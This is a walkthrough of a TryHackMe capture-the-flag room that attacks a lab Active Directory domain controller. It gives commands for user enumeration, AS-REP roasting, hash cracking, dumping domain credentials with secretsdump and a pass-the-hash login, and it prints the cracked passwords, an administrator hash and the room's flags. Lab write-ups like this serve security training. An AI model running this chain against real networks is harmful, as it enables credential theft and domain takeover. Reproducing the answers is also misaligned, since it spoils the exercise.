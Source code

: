 # Attacktive Directory Wlakthrough
### Link
- https://tryhackme.com/room/attacktivedirectory
------------------------
### Task 3 : Enumeration - Welcome to attacktive directory
- sudo nmap -sC -sV -p- 10.10.151.128
    - Picture: [attacktive_directory_walkthrough_1.png](https://github.com/LNB283/THM/blob/main/EASY/Attacktive%20Directory/Pictures/attacktive_directory_walkthrough_1.png) , [attacktive_directory_walkthrough_2.png](https://github.com/LNB283/THM/blob/main/EASY/Attacktive%20Directory/Pictures/attacktive_directory_walkthrough_2.png)
- What tool will allow us to enumerate port 139/445?
     - **Answer**: enum4linux
- What is the NetBIOS-Domain Name of the machine?
    - sudo enum4linux [IP]
    - Picture: [attacktive_directory_walkthrough_3.png](https://github.com/LNB283/THM/blob/main/EASY/Attacktive%20Directory/Pictures/attacktive_directory_walkthrough_3.png)
        - **Answer** : THM-AD
- What invalid TLD do people commonly use for their Active Directory Domain?
    - ./kerbrute_linux_amd64 uerenum --dc spookysec.local -d spookysec.local [path]/users.txt -t 100
    - **Answer** : .local
------------------------
### Task 4 : Enumeration - Enumerating users via kerberos
- What notable account is discovered? (These should jump out at you)
    - Picture: [attacktive_directory_walkthrough_4.png](https://github.com/LNB283/THM/blob/main/EASY/Attacktive%20Directory/Pictures/attacktive_directory_walkthrough_4.png)
    - **Answer**:svc-admin
- What is the other notable account is discovered?
    - **Answer**:backup
------------------------
### Task 5 : Exploitation - Abusing kerberos
- Impacket has a tool called "GetNPUsers.py" (located in impacket/examples/GetNPUsers.py) that will allow us to query ASReproastable accounts from the Key Distribution Center.
    - GetNPUsers.py -no-pass -dc-ip 10.10.168.131 spookysec.local/svc-admin - Check on internet what is : $krb5asrep$23$
    - Link: https://hashcat.net/wiki/doku.php?id=example_hashes
    - Picture: [attacktive_directory_walkthrough_5.png](https://github.com/LNB283/THM/blob/main/EASY/Attacktive%20Directory/Pictures/attacktive_directory_walkthrough_5.png)
- Looking at the Hashcat Examples Wiki page, what type of Kerberos hash did we retrieve from the KDC?
    - Picture: [attacktive_directory_walkthrough_6.png](https://github.com/LNB283/THM/blob/main/EASY/Attacktive%20Directory/Pictures/attacktive_directory_walkthrough_6.png)
    - **Answer**:Kerberos 5 AS-REP etype 23
- What mode is the hash?
    - Picture: [attacktive_directory_walkthrough_7.png](https://github.com/LNB283/THM/blob/main/EASY/Attacktive%20Directory/Pictures/attacktive_directory_walkthrough_7.png)
    - **Answer**:18200
- Now crack the hash with the modified password list provided, what is the user accounts password?
    - sudo hashcat -m 18200 /media/sf_LOLO_Share/TryHackMe/Beginner/EASY/attacktivedirectory/svc-admin.hash /usr/share/wordlists/rockyou.txt
    - **Answer**:management2005
------------------------
### Task 6 : Enumeration - Back to the basics
- What utility can we use to map remote SMB shares?
    - Picture: [attacktive_directory_walkthrough_8.png](https://github.com/LNB283/THM/blob/main/EASY/Attacktive%20Directory/Pictures/attacktive_directory_walkthrough_8.png)
    - **Answer**:smbclient
- Which option will list shares?
    - **Answer**: -L
- How many remote shares is the server listing?
    - Picture: [attacktive_directory_walkthrough_9.png](https://github.com/LNB283/THM/blob/main/EASY/Attacktive%20Directory/Pictures/attacktive_directory_walkthrough_9.png)
    - **Answer**: 6
- There is one particular share that we have access to that contains a text file. Which share is it?
    - Only way to find this particular share is to try all share ^_^
        - smbclient //10.10.147.13/backup -U 'svc-admin'
    - Picture: [attacktive_directory_walkthrough_10.png](https://github.com/LNB283/THM/blob/main/EASY/Attacktive%20Directory/Pictures/attacktive_directory_walkthrough_10.png)
    - **Answer**:backup
- What is the content of the file?
    - get backup_credentials.txt
    - cat get backup_credentials.txt
    - Picture: [attacktive_directory_walkthrough_11.png](https://github.com/LNB283/THM/blob/main/EASY/Attacktive%20Directory/Pictures/attacktive_directory_walkthrough_11.png)
    - **Answer**: YmFja3VwQHNwb29reXNlYy5sb2NhbDpiYWNrdXAyNTE3ODYw
- Decoding the contents of the file, what is the full contents?
    - Decode:
        - echo "YmFja3VwQHNwb29reXNlYy5sb2NhbDpiYWNrdXAyNTE3ODYw" | base64 -d
        - Picture: [attacktive_directory_walkthrough_12.png](https://github.com/LNB283/THM/blob/main/EASY/Attacktive%20Directory/Pictures/attacktive_directory_walkthrough_12.png)
        - **Answer**:backup@spookysec.local:backup2517860
------------------------
### Task 7 : Domain Privilege Escalation - Elevating privileges with the domain
- What method allowed us to dump NTDS.DIT?
    - Let's check tools  available on Impacket
    - Check this link : https://github.com/SecureAuthCorp/impacket/tree/master/impacket/examples
    - You can find : secretsdump.py
    - sudo secretsdump.py -dc-ip 10.10.75.253 spookysec.local/backup:backup2517860@10.10.75.253
    - Picture: [attacktive_directory_walkthrough_13.png](https://github.com/LNB283/THM/blob/main/EASY/Attacktive%20Directory/Pictures/attacktive_directory_walkthrough_13.png)
        - **Answer**:DRSUAPI
- What is the Administrators NTLM hash?
    - **Answer**: 0e0363213e37b94221497260b0bcb4fc
- What method of attack could allow us to authenticate as the user without the password?
    - **Answer**: pass the hash
- Using a tool called Evil-WinRM what option will allow us to use a hash?
    - Picture: [attacktive_directory_walkthrough_14.png](https://github.com/LNB283/THM/blob/main/EASY/Attacktive%20Directory/Pictures/attacktive_directory_walkthrough_14.png)
    - **Answer**: -H
------------------------
### Task 8 : Flag submission - Flag submission panel
- Gain access to the machine:
    - ./evil-winrm.rb -i 10.10.185.230 -u administrator -H 0e0363213e37b94221497260b0bcb4fc
    - Picture: [attacktive_directory_walkthrough_15.png](https://github.com/LNB283/THM/blob/main/EASY/Attacktive%20Directory/Pictures/attacktive_directory_walkthrough_15.png)
- svc-admin flag
    - Picture: [attacktive_directory_walkthrough_17.png](https://github.com/LNB283/THM/blob/main/EASY/Attacktive%20Directory/Pictures/attacktive_directory_walkthrough_17.png)
    - **Answer**:TryHackMe{K3rb3r0s_Pr3_4uth}
- Administrator flag
    - Picture: [attacktive_directory_walkthrough_16.png](https://github.com/LNB283/THM/blob/main/EASY/Attacktive%20Directory/Pictures/attacktive_directory_walkthrough_16.png)
    - **Answer**:TryHackMe{4ctiveD1rectoryM4st3r}
- backup flag
    - Picture: [attacktive_directory_walkthrough_18.png](https://github.com/LNB283/THM/blob/main/EASY/Attacktive%20Directory/Pictures/attacktive_directory_walkthrough_18.png)
    - **Answer**:TryHackMe{B4ckM3UpSc0tty!}